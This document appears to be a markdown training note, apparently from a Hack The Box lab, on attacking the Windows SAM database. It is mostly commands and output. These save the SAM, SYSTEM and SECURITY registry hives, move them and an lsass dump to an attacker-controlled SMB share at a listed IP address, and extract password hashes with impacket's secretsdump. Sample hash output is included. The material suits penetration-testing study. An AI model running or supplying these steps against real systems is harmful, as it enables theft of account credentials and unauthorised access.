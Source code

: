 ## Attacking SAM

### Registry Hives

|**Registry Hive**|**Description**|
|---|---|
|`hklm\sam`|Contains hashes for local account passwords. Needed for cracking passwords.|
|`hklm\system`|Contains the system bootkey, which encrypts the SAM database. Needed to decrypt SAM.|
|`hklm\security`|Contains cached credentials for domain accounts. Useful on domain-joined systems.|

> [!IMPORTANT]  
> SAM, Security, and System files cannot be accessed directly as they are used by other processes. A duplicate file must be created and transferred for offline cracking.

### Saving Registry Hives on the Victim Machine

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\Windows\Temp\sam.save
The operation completed successfully.

C:\WINDOWS\system32> reg save hklm\system C:\Windows\Temp\system.save
The operation completed successfully.

C:\WINDOWS\system32> reg save hklm\security C:\Windows\Temp\security.save
The operation completed successfully.
```

### Transferring Files to the Attacker Machine

1. **On the Attacker Machine:**

```shell
pradyun2005@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <destination in attacker>
```

2. **On the Victim Machine:**

```cmd
C:\> move lsass.DMP \\110.10.14.159\lsass
C:\> move security.save \\110.10.14.159\regfile
C:\> move system.save \\110.10.14.159\regfile
```

### Extracting SAM Hashes Using Impacket

```shell
pradyun2005@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

**Example Output:**

```
[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
[*] Cleaning up...
```

---